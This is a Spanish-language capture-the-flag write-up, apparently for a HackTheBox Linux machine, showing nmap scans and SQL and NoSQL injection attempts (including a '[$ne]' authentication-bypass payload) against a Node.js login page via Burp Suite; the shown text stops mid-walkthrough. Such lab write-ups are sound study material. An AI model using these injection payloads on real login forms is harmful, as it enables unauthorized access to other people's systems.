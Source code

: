 ## Summary

Tags: #Linux #BurpSuite #NoSQLI #XML #XXE #Netstat #Deserializacion #Unserialized 
N
- IP -> 10.10.11.139
- Ports -> TCP (22,5000), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
    - 5000 -> http Nose.js

## Recon
❯ **nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.139  -oG allPorts**
❯ **nmap -sCV -p22,5000 10.10.11.139 -oN targeted**

* Launchpad 4ubuntu0.3 -> Bionic

Miramos la web por le puerto 5000
Encontramos un panel de login 

Por lo que probamos injecciones SQL
❯ **admin' or sleep(5)-- -** Para ver si la web tarda 5 segundos en responder pero miramos que no 

Nos disponemos a abrir Burpsuite
❯ **burpsuite &> /dev/null &** Iniciamos el BurpSuite y lo mandamos a segundo plano
❯ **disown** Para independizar el proceso del BurpSuite

Y capturamos el login ingresando lo que sea en los campos, despues lo mandamos al repeater y ahi probaremos las inyecciones 

Nos fijarnos en el **Content-Length** que en este caso de el **1040**. Vamos modificando la parte de user y passwd aplicandole SQLI 
* **Ctrl + u** para hacer que la Query se URL encodee y tal vez asi sea aceptada por la Web, pero vemos que no cambia en lo absoluto esa longitud. 

user=admin’+or+1%3d1--+- Esto es encodeado
user=admin‘) or 1=1-- - &password=admin’) or 1=1-- -
user=admin” or 1=1-- - &password=admin” or 1=1-- - 
user=admin”)+or+1%3d1--+- &password=admin”)+or +1%3d1--+-

Buscamos en Google en la pagina de GITHUB **‘Payloadsallthethings’** y filtramos por SQLI, pero como no acepta alguna inyeccion, mejor miramos No-SQLI en la parte de **Authenticationn Bypass**

user=admin &password[$ne]=man Aqui tenenemos un usuario valido y queriamos ver si aplicando el no es igual [$ne] podriamos entrar ya que la longitud de 1040 no a cambiado, por lo que podriamos hacerlo con el formato **Json**.

Para poder colocarlo en Json debemos de cambiar el **Content-type** en la primer parte, y colocarlo asi:
* **Content-type: application/jason**

Y ahora debemos de poner la data en formato json asi y ver si es aceptada por la web:

{
	“user” : “admin”,
	“password” : “man”
}
